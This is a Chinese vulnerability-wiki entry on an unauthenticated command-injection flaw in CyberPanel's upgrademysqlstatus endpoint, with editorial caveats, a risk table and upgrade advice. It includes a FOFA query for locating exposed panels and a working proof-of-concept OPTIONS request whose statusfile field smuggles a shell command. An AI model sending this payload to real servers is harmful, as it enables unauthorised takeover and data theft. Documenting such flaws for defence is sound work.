

# CyberPanel upgrademysqlstatus 远程命令执行漏洞(QVD-2024-44346)

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：OPTIONS方法进入缺鉴权处理路径、statusfile未经安全处理进入shell，具体源代码条件未提供
- 证据范围：使用OPTIONS的鉴权绕过机制重要但摘要只写接口没鉴权，需补清楚；与354不同端点不可仅同产品强合。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- QVD填入cnvd字段，命名体系错误
- 影响2.3.5/.6及修复2.3.7缺精确补丁证据
- 15万独立IP只是暴露资产统计，不能证明皆可利用
- PoC纯段落非代码块，缺Content-Length及完整响应文本
- 分类应为运维面板，已知在野利用无来源

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

# 漏洞描述

该漏洞源于upgrademysqlstatus接口未做身份验证和参数过滤，未授权的攻击者可以通过此接口执行任意命令获取服务器权限，从而造成数据泄露、服务器被接管等严重的后果。目前该漏洞技术细节与EXP已在互联网上公开，鉴于该漏洞影响范围较大，建议用户尽快做好自查及防护。

# 影响版本

CyberPanel v2.3.5 

CyberPanel v2.3.6

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 超危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：app="CyberPanel"

POC/EXP：

```http
OPTIONS /dataBases/upgrademysqlstatus HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:131.0) Gecko/20100101 Firefox/131.0
Content-Type: application/json
Connection: close
```


{"statusfile":"/dev/null; ifconfig; #"}





影响独立资产ip15万


# 修复方案

目前官方已有可更新版本，建议受影响用户升级至最新版本：

CyberPanel >= v2.3.7

官方下载地址：

https://github.com/usmannasir/cyberpanel/tree/v2.3.7


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
